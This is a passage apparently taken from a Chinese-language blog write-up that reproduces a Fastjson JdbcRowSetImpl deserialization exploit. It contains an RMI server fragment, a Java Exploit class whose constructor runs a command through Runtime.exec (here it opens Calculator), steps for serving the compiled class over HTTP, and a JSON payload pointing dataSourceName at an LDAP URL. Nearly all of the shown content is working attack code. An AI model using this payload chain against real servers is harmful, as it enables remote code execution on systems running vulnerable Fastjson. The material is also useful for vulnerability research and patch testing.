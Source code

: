   ```java
          ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
          registry.bind("Exploit", referenceWrapper);
      }
  }
  ```

  ```java
  import javax.naming.Context;
  import javax.naming.Name;
  import javax.naming.spi.ObjectFactory;
  import java.io.IOException;
  import java.io.Serializable;
  import java.util.Hashtable;
   
  public class Exploit implements ObjectFactory, Serializable {
      /**
       * 要注册的Exploit
       */
      public Exploit() {
          try {
          			 Runtime.getRuntime().exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator");
          } catch (IOException e) {
              e.printStackTrace();
          }
      }
   
      @Override
      public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
          return null;
      }
   
      public static void main(String[] args) {
          Exploit exploit = new Exploit();
      }
  }
  ```

  1. 运行RMIServer
  2. 编译Exploit.class文件，并在该目录启动HTTP Server
  3. 运行FJPoC.java复现

![Fastjson%20JdbcRowSetImpl/Untitled.png](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/FastjsonJdbcRowImpl/0.png)

- JNDI + LDAP

  ```java
  // 修改PoC Json字符串中的地址
  {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:1389/Exploit", "autoCommit":true}
  ```
